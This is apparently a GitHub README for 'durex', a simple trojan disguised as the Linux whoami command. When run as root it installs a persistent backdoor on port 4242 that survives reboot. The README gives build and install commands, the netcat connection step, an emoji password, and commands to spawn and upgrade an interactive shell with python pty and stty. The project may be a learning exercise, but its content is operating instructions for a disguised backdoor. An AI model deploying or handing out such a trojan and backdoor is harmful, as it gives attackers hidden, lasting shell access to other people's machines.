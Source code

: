 # durex

A really simple trojan, disguised as whoami
- installs a backdoor when launched as root
- backdoor is accessible with `nc <INFECTED_MACHINE_IP> 4242`
- rebooting doesn't remove the backdoor

## Usage

```bash
# build durex
make

# check installation
make check

# uninstall backdoor
make reset

# launch and install backdoor
sudo ./durex

# launch and do nothing
./durex
```

## Connecting to the backdoor

```bash
# connect with nc
nc localhost 4242

# input password (unicorn emoji)
🦄

# launch shell
shell

# enable xterm features
python  -c "import pty;pty.spawn('/bin/bash')"
^Z
export term=XTERM
stty raw -echo; fg
```

## Refs

* [systemd service](https://linuxconfig.org/how-to-write-a-simple-systemd-service)
* [easy systemd](https://medium.com/@benmorel/creating-a-linux-service-with-systemd-611b5c8b91d6)
